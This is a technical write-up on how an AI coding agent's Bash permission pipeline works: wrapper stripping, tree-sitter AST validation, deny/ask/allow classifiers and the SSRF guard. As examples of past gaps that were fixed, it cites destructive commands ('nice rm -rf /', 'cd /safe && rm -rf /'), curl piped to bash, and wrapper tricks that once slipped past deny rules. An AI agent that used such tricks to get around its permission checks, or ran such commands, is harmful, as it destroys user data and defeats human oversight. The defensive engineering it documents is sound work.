**The `--` end-of-options marker**. Each wrapper pattern includes `(?:--[ \t]+)?` to consume the wrapper's own `--` separator. Without this, `nohup -- rm -- -/../foo` would strip to `-- rm -- -/../foo`, leaving `--` as the unknown base command and skipping path validation entirely.

**Nice wrapper fix**. The pattern for `nice` at `src/tools/BashTool/bashPermissions.ts:L554 was updated to match all three forms (`nice cmd`, `nice -n N cmd`, `nice -N cmd`) that `checkSemantics` in `ast.ts` strips. Previously, the pattern only matched `nice -n N`, creating an asymmetry where `checkSemantics` exposed the wrapped command to semantic checks but deny-rule matching and the cd+git gate saw the wrapper name. This allowed `nice rm -rf /` with `Bash(rm:*)` deny to produce `ask` instead of `deny`.

## Where cc diverges from the published pattern

HER Pattern 10 describes deterministic pre-parsing and per-tool permission gating. cc's implementation goes significantly further in three ways:

**Tree-sitter--based AST validation**. The published pattern assumes regex-based classification. cc uses tree-sitter to produce a full bash AST, which resolves quotes, substitutions, and redirects structurally rather than heuristically. This eliminates entire classes of parser differentials -- for example, a mid-word `#` that would be treated as a comment by regex parsers but as a literal character by the shell.

**Three-layer classifier system**. The published pattern describes a single classifier. cc runs three independent classifiers in parallel: deny descriptions, ask descriptions, and allow descriptions. Each classifier produces a `ClassifierResult` with a confidence level, and the deny classifier always takes precedence over the ask classifier, which takes precedence over the allow classifier. This three-layer system is more robust than a single classifier because a failure in one layer does not compromise the others.

**Fixed-point command stripping**. The published pattern does not address the problem of wrapper commands and environment variable prefixes that can obscure the actual command being executed. cc's iterative stripping approach handles arbitrarily deep nesting of wrappers and env vars, ensuring that permission rules match the command that actually executes rather than the wrapper that obscures it.

cc also diverges from HER Section 12.4's threat model in one important way: the SSRF guard (defined in `src/utils/hooks/ssrfGuard.ts`) applies to HTTP hooks and web tools but not to the Bash tool's own `curl`/`wget` invocations. The Bash tool relies on permission rules and classifiers to catch network exfiltration, rather than the IP-range--based blocking that protects HTTP hooks. This is a deliberate tradeoff: applying DNS-rebinding protection to every `curl` invocation would produce an unacceptable volume of false positives for legitimate API calls during development, while the permission system provides a more targeted defense by allowing users to deny specific patterns like `Bash(curl:*)` or `Bash(wget:*)`.

A second divergence concerns the treatment of shell-based code execution. HER Section 12.4 recommends "input sanitization on all external content" and "deterministic validation (not LLM judgment) for security-critical decisions." cc's classifier pipeline uses LLM judgment (via `classifyBashCommand`) as a complement to deterministic validation, not a replacement. The AST-based validators and regex-based security checks are deterministic and always run first. The classifier only fires when deterministic checks pass without blocking, providing a second opinion that can catch semantic risks (e.g., `curl` piped to `bash`) that structural analysis misses. This two-tier approach -- deterministic first, probabilistic second -- reflects the practical reality that no set of regex patterns can cover every dangerous command variant, while an LLM-only approach would be too unreliable for a security boundary.

## Developer takeaways for building a long-running agent

**Layer your defenses**. The Bash tool's permission pipeline works because no single layer is responsible for catching every attack. AST parsing catches structural tricks, classifiers catch semantic risks, path constraints catch directory-escape attacks, and deny rules provide user-configured hard blocks. A failure in any one layer is caught by the others.

**Deny-first evaluation is non-negotiable**. The rule-matching order -- deny before ask, ask before allow -- is a safety invariant that must be maintained at every level. If allow rules were checked before deny rules, a user could never revoke permission for a previously allowed command. The same principle applies at the subcommand level: every subcommand in a compound command is checked against deny rules independently, so `cd /safe && rm -rf /` cannot be allowed by a `Bash(cd:*)` allow rule.

**Use fixed-point stripping for command normalization**. The interleaving of wrapper commands and environment variable prefixes creates a combinatorial explosion of command representations. Iterating `stripSafeWrappers` and `stripAllLeadingEnvVars` to a fixed point handles this correctly without requiring the developer to enumerate all possible combinations. This pattern is worth adopting whenever permission decisions depend on the command's base name.

**Separate informational warnings from permission logic**. The destructive-command warning system at `src/tools/BashTool/destructiveCommandWarning.ts` does not affect permission decisions. This separation is deliberate: warnings help the user make informed decisions, but they must never be confused with actual security boundaries. A warning that becomes a gate is a gate that can be bypassed by muting the warning.

**Treat exit-code semantics as part of the safety contract**. Misinterpreting `grep`'s exit code 1 as an error causes the model to waste turns on false failures, which degrades the user experience and can trigger retry loops. The `commandSemantics.ts` module is small but critical: it prevents the agent from entering diminishing-returns spirals caused by semantic misunderstandings of command results.
